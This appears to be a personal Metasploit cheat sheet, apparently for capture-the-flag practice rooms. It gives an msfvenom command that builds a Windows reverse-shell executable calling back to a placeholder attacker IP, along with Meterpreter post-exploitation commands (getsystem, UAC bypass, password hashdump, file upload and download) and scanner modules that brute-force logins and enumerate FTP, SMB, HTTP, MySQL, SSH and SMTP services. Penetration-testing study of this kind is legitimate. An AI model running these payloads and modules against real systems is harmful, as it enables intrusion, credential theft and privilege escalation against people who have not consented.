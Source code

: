 
### Basics
``` bash
search x
use x
info
show options, show advanced options
SET X (e.g. set RHOST 10.10.10.10, set payload x)
```_
#Staged Reverse Shell msfVenom payload

#Basic Windows Reverse Shell:
``` bash
msfvenom -p windows/shell_reverse_tcp LHOST=<Your_Attacker_IP> LPORT=<Your_Port> -f exe > shell.exe
```


### Payloads

Payloads that I have used in rooms
```
cmd/unix/reverse (Check if used exploit is type unix)
```

### Meterpreter

```
background
sessions -l
sessions -i 1
sysinfo, ifconfig, route, getuid
getsystem (privesc)
bypassuac
download x /root/
upload x C:\\Windows
shell
use post/windows/gather/hashdump
```

### Service Enumeration

### FTP
```
use auxiliary/scanner/ftp/ftp_version
use auxiliary/scanner/ftp/ftp_login
use auxiliary/scanner/ftp/anonymous
```

### SMB
```
use auxiliary/scanner/ftp/anonymous
use auxiliary/scanner/smb/smb_enumusers
use auxiliary/scanner/smb/smb_enumshares
use auxiliary/scanner/smb/smb_login

```
### HTTP
```
use auxiliary/scanner/http/apache_userdir_enum
use auxiliary/scanner/http/brute_dirs
use auxiliary/scanner/http/dir_scanner
use auxiliary/scanner/http/dir_listing
use auxiliary/scanner/http/http_put
use auxiliary/scanner/http/files_dir
use auxiliary/scanner/http/http_login
use auxiliary/scanner/http/http_header
use auxiliary/scanner/http/http_version
use auxiliary/scanner/http/robots_txt
```

### MYSQL
```
use auxiliary/admin/mysql/mysql_enum
use auxiliary/admin/mysql/mysql_sql
use auxiliary/scanner/mysql/mysql_file_enum
use auxiliary/scanner/mysql/mysql_hashdump
use auxiliary/scanner/mysql/mysql_login
use auxiliary/scanner/mysql/mysql_schemadump
use auxiliary/scanner/mysql/mysql_version
use auxiliary/scanner/mysql/mysql_writable_dirs

```
### SSH
```
use auxiliary/scanner/ssh/ssh_version
use auxiliary/scanner/ssh/ssh_login
use auxiliary/scanner/ssh/ssh_enumusers
```

### SMTP
```
use auxiliary/scanner/smtp/smtp_enum
use auxiliary/scanner/smtp/smtp_version
```